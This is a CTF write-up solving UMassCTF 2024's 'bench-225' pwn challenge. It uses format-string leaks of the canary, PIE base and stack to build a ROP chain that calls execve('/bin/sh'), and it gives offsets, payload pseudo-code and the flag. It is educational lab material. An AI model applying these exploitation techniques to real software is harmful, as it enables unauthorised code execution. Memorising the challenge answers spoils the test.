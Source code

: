 # Prompt

Life is one big tug of war. And you don't win the war by pushing the rope.

Files:

    bench-225

nc bench-225.ctf.umasscybersec.org 1337 

# Solve 

Speed run intro: Running the code shows a cli app, reversing the code shows we need to get our stamina below 50 to get a new option in the "game". This new option is the only one we care about; reveal by entering `3, 3, 3, 3, 3, 4, 4, 4, 4, 4, 4`. 

## Vulnerabilities 

Run `checksec`: 

```
>> checksec ./bench-225
[*] '/root/workbench/umassctf_2024/pwn/bench-225/bench-225'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Yikes... We have everything...

The new option in the game takes us to a function named `motivation`

This function holds all of the vulnerabilities we could possibly want! 

![vulnerable function](./media/the_vulns.png)

We have a buffer of 8 bytes that we can write 1000 bytes into, so that's a BOF... We have a `printf` call with no format arguments, so that's a leak!

Since canaries are enabled, we probably want the stack cookie, because if we get that then we can ROP!

The `motivation` function just lets us enter those 1000 bytes previously mentioned, but we don't want to stack overflow while gathering our leaks!

Using `telescope` in `gef` after we break point at the `fgets` call, we can start using some format bugs to leak data. If we enter `%9$p` we get the cookie!

![cookieez](./media/leak.png)

## ROP Funz 

Since we can use ROP now, let's check if there are any useful functions or one-gadgets we might've missed...

No one-gadgets, but there is a function that is not called from anywhere named `the_boats`. Decompiling this reveals a ton of useful ROP gadgets: 

![gadgets](./media/gadgets.png)

So, if we can get the address of `the_boats`, we can use these gadgets... but, how do we do that? Well, checking the stack again, we see we can grab the address of `main` if we enter a format string bug of `%17$p`!

So, let's calulate the offset of `main` and `the_boats` since we have a leak of the base address of `main` (because PIE is enabled, these values are just from my run and won't match yours):

```
    Example `main`:      0x0000560f8995d35c
    Example `the_boats`: 0x0000560f8995d317
    
    0x0000560f8995d317 - 0x0000560f8995d35c = 69. 
```

So, `the_boats` is 69 bytes *behind* `main`. We can grab the offsets of the gadgets as well.

```
   the_boats <+27>:    pop    rax
   the_boats <+28>:    ret
   the_boats <+29>:    pop    rbx
   the_boats <+30>:    ret
   the_boats <+31>:    pop    rdi
   the_boats <+32>:    ret
   the_boats <+33>:    pop    rdx
   the_boats <+34>:    ret
   the_boats <+35>:    pop    rsi
   the_boats <+36>:    ret
   the_boats <+37>:    pop    rcx
   the_boats <+38>:    ret
   the_boats <+39>:    syscall
   the_boats <+41>:    ret
   the_boats <+42>:    mov    rdi,rax
   the_boats <+45>:    ret
```

The very next byte is the start of `main`. 

So, we have the cookie and we have a bunch of ROP gadgets. We also have vbuffers for stdin/stdout/stderr on the remote connection, which means if we get a shell *locally* we will see it *remotely* (which doesn't usually work). 

So, the call we want to make is, in its most basic form, `execve("/bin/sh", NULL, NULL)`. We can do this in a ROP chain if we use the `syscall` ROP gadget after setting the following registers to the following values:

```
    rdi = "/bin/sh\0"
    rsi = 0x0
    rdx = 0x0
    rax = 0x3b
```

Conveniently, we have pop gadgets to populate all of these registers *and* `fgets` only terminates the input on a newline, which is *fantastic* because it means we can enter NULL bytes, which we need to set `rsi` and `rdi`!

The pseudo code for the ROP chain I wrote was (assume we have gathered the leak for `main` and the cookie): 

```
    payload += padding
    payload += cookie
    payload += padding
    payload += pop_rax
    payload += execve_sys_num
    payload += pop_rsi
    payload += nulls
    payload += pop_rdx
    payload += nulls
    payload += pop_rdi
    payload += b"/bin/sh\0"
    payload += syscall_gadget
```

The "padding" is of 8 bytes. Our buffer overflow was 8 bytes away from the cookie and the cookie was 8 bytes away from `rip`, so we had to pad either side of it. 

But... this failed... why? 

## Realizing Your Mistake 

There is one major problem... Those of you more astute than I am will have noticed it already...

The function signature for `execve` is 

```
int execve(const char *path, char *const argv[], char *const envp[]);
```

Now, I am *100% certain* the last two arguments of this call *can* be `NULL`. But, the mistake I made was... *drumroll*... I set `rdi` to the character bytes of `/bin/sh\0` instead of a *pointer* to those bytes. 

Well, how do we set `rdi` to a pointer to "/bin/sh"? Since we can `NULL` terminate `/bin/sh`, we really just need the address where the start of the string is written. 

Let's go back to our leaks... This is a stack based buffer overflow, so if we can get the *address of the stack* we can point to data we control! Cutting out some of the trial and error here, just know that `%19$p` leaks an address on the stack. This address is consisently 328 bytes *ahead* of the *start* of our ROP chain, so if we know how many instructions we *need* we can just tack as much data at the end of our ROP chain as we want to point to after calculating the offset from the start of our overflow.

Again, let's cut out some of the trial and error here and just let me tell you that our necessary ROP chain will be 96 bytes long, meaning we can start writing our arbitrary data after that and then point to it with our stack leak!

The new pseudo code for the payload is: 

```
    payload += padding
    payload += cookie
    payload += padding
    payload += pop_rax
    payload += execve_sys_num
    payload += pop_rsi
    payload += nulls
    payload += pop_rdx
    payload += nulls
    payload += pop_rdi
    payload += stack_leak - 328 + 96
    payload += syscall_gadget
    payload += b"/bin/sh\0"
```

Remember, our leak was 328 bytes ahead of our shellcode, but "/bin/sh\0" is 96 bytes after that, which is why we did the math this way.

Aaaaaaaand, we get a shell!

UMASS{wh0$e_g0nn4_c4rry_t3h_r0pz_&nd_d4_ch41nz?}
